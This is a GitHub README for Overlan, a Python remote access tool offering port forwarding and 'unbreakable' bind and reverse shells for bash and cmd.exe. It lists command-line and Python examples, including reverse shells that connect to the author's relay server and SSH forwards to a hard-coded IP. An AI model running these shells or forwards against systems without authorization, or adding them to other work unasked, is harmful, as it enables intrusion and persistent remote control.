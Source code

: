 # Overlan


Python Remote Access Tools

For full documentation visit [Overlan](https://github.com/YannBouyeron/overlan).


## Functionality

- Remote port forwarding (http & tcp)
- Local port forwarding (http & tcp)
- TCP listen
- TCP connect
- Unbreakable Bind Shell
- Unbreakable Reverse Shell
- Auto spawn pty (Unix only)
- AES derivation password protected
- Cross Platform


## Install

Unix:

	pip install overlan
	
	# or

	python3 -m pip install overlan
	

Windows:

	py -m pip install overlan
	


Git:


	git clone https://github.com/YannBouyeron/overlan

	cd overlan

	python3 setup.py install
	


## Commands Line Interface


#### Listen

Listen on localhost port 4444
	
	overlan -l 4444

Listen on port 4444 and remote forward to overlan server port 8888
	
	overlan -l 4444 -R 8888

#### Connect

Connect to localhost port 4444
	
	overlan localhost 4444

Connect to overlan server port 4444
	
	overlan overlan 4444

#### Port forwarding

Overlan

Remote forward localhost 4444 to overlan server port 8888

	overlan 4444 -R 8888

Local forward overlan server port 8888 to localhost 4444

	overlan 8888 -L 4444

SSH

Remote forward localhost 4444 to overlan server port 8888 

	ssh -N -R 8888:localhost:4444 overlan@141.94.203.12 -p 22

Local forward localhost 4444 to overlan server port 8888 

	ssh -N -L 4444:localhost:8888 overlan@141.94.203.12 -p 22

#### Bind Shell

Unix

- `overlan -l 4444 -e /bin/bash` - BindShell listen on localhost port 4444.
- `overlan -l 4444 -e /bin/bash -R 8888` - BindShell listen on port 4444 and remote forward to overlan server port 8888.
	
- `overlan -l 4444 -e /bin/bash -k mypassowrd` - Password protected BindShell listen on localhost 4444.
- `overlan -l 4444 -e /bin/bash -k mypassword -R 8888` - Password protected BindShell listen on port 4444 and remote forward to overlan server port 8888.

Windows

- `overlan -l 4444 -e cmd.exe` - BindShell listen on localhost port 4444.
- `overlan -l 4444 -e cmd.exe -R 8888` - BindShell listen on port 4444 and remote forward to overlan server port 8888.
	
- `overlan -l 4444 -e cmd.exe -k mypassowrd` - Password protected BindShell listen on localhost port 4444.
- `overlan -l 4444 -e cmd.exe -k mypassword -R 8888` - Password protected BindShell listen on port 4444 and remote forward to overlan server port 8888.

#### Reverse Shell

Unix

- `overlan localhost 4444 -e /bin/bash` - ReverseShell connect to listener on localhost port 4444.
- `overlan overlan 4444 -e /bin/bash` - ReverseShell connect to listener on overlan server port 4444.
- `overlan localhost 4444 -e /bin/bash -k mypassowrd` - Password protected ReverseShell connect to localhost port 4444.
- `overlan overlan 4444 -e /bin/bash -k mypassowrd` - Password protected ReverseShell connect to overlan server port 4444.

Windows

- `overlan localhost 4444 -e cmd.exe` - ReverseShell connect to listener on localhost port 4444.
- `overlan overlan 4444 -e cmd.exe` - ReverseShell connect to listener on overlan server port 4444.
- `overlan localhost 4444 -e cmd.exe -k mypassowrd` - Password protected ReverseShell connect to localhost port 4444.
- `overlan overlan 4444 -e cmd.exe -k mypassowrd` - Password protected ReverseShell connect to overlan server port 4444.


## Help

- `overlan -h` - Print help message and exit.

```
usage: overlan [-h] [-l] [-e EXECUTE] [-c] [-R REMOTE] [-L LOCAL] [-k KEY]
               [-d DELAY]
               [host] port

positional arguments:
  host
  port

optional arguments:
  -h, --help            show this help message and exit
  -l, --listen          Listen on port specified
  -e EXECUTE, --execute EXECUTE
                        Executable: /bin/bash, /bin/sh, cmd.exe
  -c, --connect         Connect to host and port specified
  -R REMOTE, --remote REMOTE
                        Remote forward to remote_port
  -L LOCAL, --local LOCAL
                        Local forward from remote_port
  -k KEY, --key KEY     Password for AES derivation key
  -d DELAY, --delay DELAY
                        Timeout delay
```

## Use within python


Use overlan ssh server:


```
from overlan import Overlan

v = Overlan()

```

Specify another external ssh server:

```
from overlan import Overlan

v = Overlan(username=<...>, hostname=<...>, port=<...>, password=<...>)
 
```

Listen

```
v.listen(<port>)
```

Connect:

```
v.connect(<host>, <port>)
```

Remote forward:

```
v.rf(<local_port>, <remote_port>)
```

Local forward:

```
v.lf(<local_port>, <remote_port>)
```

BindShell:

```
# linux

v.listen(<port>, executable="/bin/bash", key="somesecret")

# windows

v.listen(<port>, executable="cmd.exe", key="somesecret")

# as daemon

v.bs(<port>, executable="/bin/bash", key="somesecret")
```

ReverseShell:

```
#linux

v.connect(<host>, <port>, executable="/bin/bash", key="somesecret")

# windows

v.connect(<host>, <port>, executable="cmd.exe", key="somesecret")

# as daemon

v.rs(<host>, <port>, executable="/bin/bash", key="somesecret")
```



